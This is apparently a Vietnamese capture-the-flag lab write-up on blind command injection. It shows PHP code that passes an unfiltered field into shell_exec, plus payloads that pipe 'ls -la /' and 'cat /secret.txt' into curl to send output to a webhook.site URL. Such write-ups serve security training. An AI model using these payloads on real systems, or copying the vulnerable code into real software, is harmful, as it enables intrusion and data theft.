


# Command Injection Level 4

## __1. Sử dụng như người dùng:__
  
Anh dev đã thêm thêm tính năng mới là `backup` và mình cùng sử dụng thử các tính năng.
- `backup`:  
  
&rarr; Chắc là để backup cái gì đó.
- `ping` và các chức năng tương tự:  

&rarr; Có vẻ như anh Dev đã quá mệt mỏi fix Bug và bảo trì luôn phần này.

## __2. Xem đằng sau chương trình:__
Đoạn code mới:
```php
<?php
    if(isset($_POST['command'],$_POST['target'])){
        $command = $_POST['command'];
        $target = $_POST['target'];
        switch($command) {
			case "backup":
				$result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
                if ($result !== null && strpos($result, "zip error") === false)
                    die("Backup thành công");
                else
                    die("Backup không thành công");
				break;
            // CHANGELOG: Bảo trì
			// case "ping":
			// 	$result = shell_exec("timeout 10 ping -c 4 $target &2 > 1");
			// 	break;
			// case "nslookup":
			// 	$result = shell_exec("timeout 10 nslookup $target &2 > 1");
			// 	break;	
			// case "dig":
			// 	$result = shell_exec("timeout 10 dig $target &2 > 1");
			// 	break;
		}
        die("Một số chức năng đang được bảo trì. Mời bạn nạp tiền để có thể tiếp tục duy trì dự án");
    }
?>
```
Vậy anh Dev đã bảo trì hết các chức năng (bằng cách `comment`) ở 3 level trước và thêm chức năng `backup` nhằm zip file `/var/www/html/index.php` vào `/tmp/$target` cuối cùng kết quả zip được lưu vào biến `$result` để kiểm tra:
- Nếu `$result !== null` là lệnh command được thực hiện sẽ trả về gì đó không phải `null` và `strpos($result, "zip error") === false)` là không có `zip error` xuất hiện trong kết quả thì xuất ra `Backup thành công`.
- Nếu ngược lại 1 trong 2 điều kiện ở trên thì xuất ra `Backup không thành công`.

Bên cạnh đó anh Dev cũng không filter bất kỳ ký tự nào ở `target`. Nhưng kết quả trả về chỉ là kết quả `backup` chứ không còn là kết quả của các lệnh command chạy được.

## __3. Lên ý tưởng và Khai thác:__
### a. Ý tưởng:
Vậy thì ứng dụng không trả về output  thì liệu có cách nào ta có thể tự gửi output về phía chúng ta được không?  
Mình vẫn sẽ đi search Google "how to send data to server bash" và cho ta một số kết quả gợi ý dùng lệnh `curl` để gửi data tới một server.  

Mô hình Outbound:  


&rarr; __Ta sẽ host 1 server và dùng `curl` để gửi output gửi về server mà chúng ta host.__

### b. Khai thác:
Vì `target` không có chặn nên ta dùng các ký tự trên command thoải mái.  

__Payload:__ 
```
; ls -la / | curl --data-binary @- <url của server attacker> #
```
Mình sẽ lấy output của `ls -la /` vào `curl` để gửi về server. Ở đây mình dùng webhook có url là `https://webhook.site/ff20d877-c21f-4d1e-88e9-beb2ccfa2693`

__Kết quả:__  


Vậy mình đã RCE server và lấy `flag` thôi.
__Payload:__ 
```
; cat /secret.txt | curl --data-binary @- https://webhook.site/ff20d877-c21f-4d1e-88e9-beb2ccfa2693 #
```


> CBJS{FAKE_FLAG_FAKE_FLAG}